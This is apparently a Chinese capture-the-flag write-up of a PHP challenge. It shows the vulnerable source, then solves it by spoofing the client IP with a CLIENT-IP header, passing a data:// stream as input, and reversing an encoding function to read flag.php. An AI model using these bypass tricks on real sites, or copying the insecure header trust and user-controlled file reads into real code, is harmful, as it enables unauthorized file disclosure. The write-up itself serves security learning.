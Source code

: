 ![在这里插入图片描述](https://img-blog.csdnimg.cn/aca6d896b64b402480d1a48bc6ebd0ed.png)
POST传`Merak`

```php
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }

```
`change()`对参数进行了内容转换，最终会从这个转换后的参数读文件名，要构造一个字符串，转换后是flag.php

可能还会有`xff`头识别

要求读文件内容`===todat is a happy day`，不知道文件就用`data伪协议`

XFF不能用，从参考博客学到新姿势`CLIENT-IP`

打印内容用`data://text/plain,todat is a happy day`

`change()`函数中我们把`+`改成`-`，进行逆运算

```php
<?php

function change($v){ 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    return $re; 
}

$a='flag.php';

echo base64_encode(change($a));

```
![在这里插入图片描述](https://img-blog.csdnimg.cn/eac67ee9ad7e4c898cbe0d934a51aedc.png)
